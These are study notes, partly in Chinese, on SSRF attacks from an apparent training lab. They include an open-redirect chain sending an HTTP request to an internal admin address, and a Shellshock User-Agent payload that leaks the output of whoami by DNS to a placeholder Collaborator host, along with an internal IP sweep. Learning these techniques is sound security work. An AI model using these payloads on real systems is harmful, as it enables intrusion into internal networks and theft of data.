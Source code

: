 For example, suppose the application contains an open redirection vulnerability in which the following URL:

/product/nextProduct?currentProductId=6&path=http://evil-user.net

returns a redirection to:

http://evil-user.net

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

能成是因为应用会先验证stockAPI来自允许的域，然后应用请求url并处罚重定向，跟随重定向并发送给定的内部请求

# Blind SSRF 

能打但是没回显

## How to find blind SSRF

The most reliable way to detect blind SSRF vulnerabilities is using **out-of-band** (OAST) techniques

**Note**：

在测试SSRF漏洞时，通常会**观察提供的协作者域的DNS look-up**，但**不观察后续HTTP请求**。这通常是因为应用程序试图向域发出HTTP请求，这导致了初始DNSlookup，但实际的HTTP请求被网络级筛选阻止。对于基础设施来说，允许出站DNS流量是比较常见的，因为这对于许多目的都是必需的，但会阻止到意外目的地的HTTP连接。



仅仅识别可能触发带外HTTP请求的Blind SSRF 本身并不能提供可利用性的途径

但是，它仍然可以用来探测服务器本身或其他后端系统上的其他漏洞。您可以盲扫**内部IP地址空间**，发送用于检测已知漏洞的有效负载

lab：

- install the “Collaborator Everywhere”

- add the site to target scope

- browse and send the user-agent one to intruder 

- change the user-agent with the **Shellshock payload**

  ```bash
  () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net
  ```

- change the referer with http://192.168.0.1:8080 and from 1 to 255

- see the dns results in collaborator
